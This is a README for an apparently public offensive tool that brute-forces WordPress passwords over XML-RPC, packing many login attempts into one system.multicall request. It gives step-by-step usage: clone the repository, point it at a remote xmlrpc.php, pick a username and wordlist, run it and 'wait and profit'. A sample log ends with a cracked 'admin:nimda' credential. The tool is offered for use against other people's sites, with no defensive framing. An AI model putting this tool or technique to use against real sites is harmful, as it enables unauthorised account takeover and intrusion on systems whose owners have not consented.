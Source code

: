 # Purpose

This tool bruteforces user passwords on Wordpress installations that have XML-RPC enabled (by default, btw) using the `system.multicall()` call which allows encapsulation of multiple methods in one XML-RPC call, thus, giving an opportunity to save on network requests when bruteforcing passwords (amplification). In other words, instead of 1337 requests per 1337 password attempts, this methods allows for 1337 passwords to be tested in one request.

Currently, we have empirically established the maximum number of methods per request which is equal to 1998. Adding methods over this number produces an error on *our* Wordpress installation (YMMV).

# Usage
- `git clone https://github.com/0xBADCA7/wp-xmlrpc-bruteforcer.git`
- `cd wp-xmlrpc-bruteforcer`
- Edit `main.py`:
	-	`WORDPRESS_SERVER` to point to the `xmlrpc.php` file on the remote side
	- `USERNAME` for the username password of which you want to discover
	- `WORDLIST` to point to the dictionary of your choice
	- (optional) `CHUNK_SIZE` to change the number of multicall methods per single network request
	- (optional) `THREADS_NUM` to change the number of threads
- Run as `python3 main.py`
- Wait and profit

# Sample run
```
$ python3 main.py
[+] Started at Sun Nov  8 14:30:55 2015
[i] Thread-2 Total words:  256 Total calls:  1
[i] Thread-3 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  512 Total calls:  2
[i] Thread-2 Total words:  512 Total calls:  2
[i] Thread-3 Total words:  512 Total calls:  2
[i] Thread-1 Total words:  768 Total calls:  3
[i] Thread-2 Total words:  768 Total calls:  3
[i] Thread-3 Total words:  768 Total calls:  3
[i] Thread-1 Total words:  1024 Total calls:  4
[i] Thread-2 Total words:  1024 Total calls:  4
[i] Thread-3 Total words:  1024 Total calls:  4
[i] Thread-1 Total words:  1280 Total calls:  5
[i] Thread-2 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1536 Total calls:  6
[i] Thread-1 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1792 Total calls:  7
[i] Thread-3 Total words:  1792 Total calls:  7
[i] Thread-1 Total words:  1792 Total calls:  7
[i] Thread-2 Total words:  2048 Total calls:  8
[i] Thread-1 Total words:  2048 Total calls:  8
[i] Thread-3 Total words:  2048 Total calls:  8
[i] Thread-2 Total words:  2304 Total calls:  9
[i] Thread-1 Total words:  2304 Total calls:  9
[i] Thread-3 Total words:  2304 Total calls:  9
[i] Thread-2 Total words:  2560 Total calls:  10
[i] Thread-1 Total words:  2560 Total calls:  10
[i] Thread-3 Total words:  2560 Total calls:  10
[i] Thread-2 Total words:  2816 Total calls:  11
[i] Thread-1 Total words:  2816 Total calls:  11
[i] Thread-3 Total words:  2816 Total calls:  11
[i] Thread-2 Total words:  3072 Total calls:  12
[i] Thread-1 Total words:  3072 Total calls:  12
[i] Thread-3 Total words:  3072 Total calls:  12
[i] Thread-2 Total words:  3328 Total calls:  13
[i] Thread-1 Total words:  3328 Total calls:  13
[!] Found a match: "admin:nimda"
[+] Finished at Sun Nov  8 14:32:16 2015
Password found. All done. Bye
```

# License
Licensed under GPLv3, see [gpl-3.0.txt](gpl-3.0.txt) for details.


